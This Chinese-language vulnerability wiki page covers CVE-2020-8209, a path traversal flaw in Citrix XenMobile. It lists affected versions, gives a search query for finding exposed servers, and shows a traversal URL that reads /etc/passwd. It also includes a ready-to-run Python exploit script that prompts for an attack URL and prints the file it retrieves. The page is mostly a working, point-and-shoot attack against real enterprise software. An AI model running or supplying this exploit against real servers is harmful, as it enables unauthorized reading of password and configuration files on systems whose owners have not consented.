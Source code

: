 # Citrix XenMobile 任意文件读取 CVE-2020-8209

# Citrix XenMobile 任意文件读取 CVE-2020-8209

## 漏洞描述

XenMobile是Citrix开发的企业移动性管理软件。该产品允许企业管理员工的移动设备和移动应用程序。该软件的目的是通过允许员工安全地在企业拥有的和个人移动设备及应用程序上工作来提高生产率。 CVE-2020-8209，路径遍历漏洞。此漏洞允许未经授权的用户读取任意文件，包括包含密码的配置文件

## 漏洞影响

```
RP2之前的XenMobile服务器10.12
RP4之前的XenMobile服务器10.11
RP6之前的XenMobile服务器10.1010.9
RP5之前的XenMobile服务器
```

## 网络测绘

```
title="XenMobile"
```

## 漏洞复现

访问 [**http://xxx.xxx.xxx.xxx/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd**](http://xxx.xxx.xxx.xxx/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd) 可以成功下载**/etc/passwd**文件

![](/images/202202102005303.png)



## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import hashlib
import sys
import requests
import random
import re
import urllib3

def title():
    print('+------------------------------------------')
    print('+  \033[34mVersion: Citrix XenMobile                                          \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-8209.py                                  \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=10)
        print("\033[32m[o] 含有CVE-2020-8209漏洞，成功读取/etc/passwd\033[0m\n{} ".format(response.text))
    except:
        print("\033[31m[x] 漏洞利用失败 \033[0m")



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >		>> \033[0m"))
    POC_1(target_url)
```

